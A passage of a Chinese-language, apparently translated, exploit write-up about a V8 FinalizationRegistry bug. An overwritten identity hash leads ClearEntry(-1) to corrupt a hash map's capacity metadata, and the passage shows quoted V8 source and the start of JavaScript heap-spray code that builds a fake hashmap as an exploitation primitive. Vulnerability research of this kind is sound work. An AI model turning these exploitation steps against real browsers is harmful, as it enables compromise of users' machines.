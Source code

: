 ```
    if (IsUndefined(weak_cell->key_list_next(), isolate)) {
      key_map->ClearEntry(entry);
      key_map->ElementRemoved();
    }
    //...
  }
//...
}
```

  
  
由于 的身份哈希unregister_token被不相关的内容（例如指向属性数组的指针）覆盖，Object::GetHash()返回的值与 中任何现有条目均不对应key_map。因此，FindEntry()返回 -1。  
  
现在到了关键部分：V8 假设哈希值稳定且有效，因此它不会检查错误的索引。这会导致ClearEntry(-1)被调用：  
  

```
void Dictionary<Derived, Shape>::ClearEntry(InternalIndex entry) {
  Tagged<Object> the_hole = GetReadOnlyRoots().the_hole_value();
  PropertyDetails details = PropertyDetails::Empty();
  Cast<Derived>(this)->SetEntry(entry, the_hole, the_hole, details);
}
```

  
  
这最终会将特殊标记THE_HOLE（通常为 0x3ec）写入无效位置，从而破坏元数据（例如已删除条目的数量和地图的内部容量）。  
  

```
staticconstint kNumberOfElementsIndex = 0;
staticconstint kNumberOfDeletedElementsIndex = 1;
staticconstint kCapacityIndex = 2;
staticconstint kPrefixStartIndex = 3;
```

  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadW4c5qzY80wNzNYbcibsDERwJtawcHdicMqxcSxFpfYxNd3YKVSnJCg8ld242WLMG41iazRTHyibviaSw/640?wx_fmt=png&from=appmsg "")  
  
开发  
  
第一个原语：回收损坏的容量  
  
在这个阶段，我们已经成功破坏了内部JSFinalizationRegistry::key_map，使其相信它的容量比实际的要大。  
  
现在的目标是回收并控制多余的（伪）容量，方法是将我们自己的数据结构小心地放置在与损坏的映射直接相邻的内存中。具体来说，我们希望在内存中连续分配一个伪哈希映射，与超出范围的映射重叠key_map：  
  

```
// Store a hash in unreg_token
p.registry = new FinalizationRegistry(gcTriggered);
p.registry.register(target, undefined, unreg_token);

// Spray our fake hashmap after JSFinalizationRegistry::key_map
p.spray = [];
for (let i = 0; i < 1000; i++) {
  p.spray.push(uint64ToFloat((BigInt(0x11) << 1n) | (0x11n << 32n)));
}
```
